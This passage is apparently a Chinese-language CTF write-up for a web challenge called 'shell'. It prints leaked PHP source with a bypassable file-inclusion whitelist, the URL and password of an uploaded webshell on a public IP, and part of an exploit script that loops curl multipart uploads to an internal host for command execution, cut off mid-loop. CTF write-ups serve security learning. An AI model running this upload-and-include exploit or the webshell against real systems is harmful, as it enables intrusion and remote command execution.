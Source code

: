 ### shell
题目提示源码泄露，恢复得到
```php
<?php

require_once 'user.php';
$C = new Customer();
if(isset($_GET['action']))
{
    $action=$_GET['action'];
    $allow=0;
    $white_action = "delete|index|login|logout|phpinfo|profile|publish|register";
    $vpattern = explode("|",$white_action);
    foreach($vpattern as $key=>$value)
    {
        if(preg_match("/$value/i", $action ) &&  (!preg_match("/\//i",$action))   )
        {
            $allow=1;
        }
    }
    if($allow==1)
    {require_once 'views/'.$_GET['action'];}
    else {
        die("Get out hacker!<br>jaivy's laji waf.");
    }
}
else
header('Location: index.php?action=login');

```
第一关参考
https://www.xmsec.cc/n1ctf-web-review/
https://xz.aliyun.com/t/2148#toc-0
然后直接上传得shell
shell: http://123.207.72.148:11027/upload/wula.php password是cmd
进去看exp3.php(前人种树后人乘凉滑稽)，对内网.2的ip进行文件上传包含可以执行命令。

```php
<?php



$payload="curl -i -s -k  -X 'POST'  -H 'Upgrade-Insecure-Requests: 1' -H 'Origin: null' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymZPeYQvY7ydrgDSx' -H 'User-Agent: Mo'  --data-binary $'------WebKitFormBoundarymZPeYQvY7ydrgDSx\x0d\x0aContent-Disposition: form-data; name=\"file[0]\"\x0d\x0a\x0d\x0a0\x0d\x0a------WebKitFormBoundarymZPeYQvY7ydrgDSx\x0d\x0aContent-Disposition: form-data; name=\"file[2]\"\x0d\x0a\x0d\x0aphp\x0d\x0a------WebKitFormBoundarymZPeYQvY7ydrgDSx\x0d\x0aContent-Disposition: form-data; name=\"hello\"\x0d\x0a\x0d\x0a/var/sandbox/c45f7f6a79cd05675f81154be24040c5/500.php\x0d\x0a------WebKitFormBoundarymZPeYQvY7ydrgDSx\x0d\x0aContent-Disposition: form-data; name=\"file\"; filename=\"l3yxxxxxxxxx.php\"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a@<?php echo 6666;?>\x0d\x0a------WebKitFormBoundarymZPeYQvY7ydrgDSx--\x0d\x0a'      'http://172.18.0.2/index.php'";
	for($i=100;$i<200;$i++){
		system($payload);
	}

	for($i=100;$i<200;$i++){
		$j=(string)$i;
```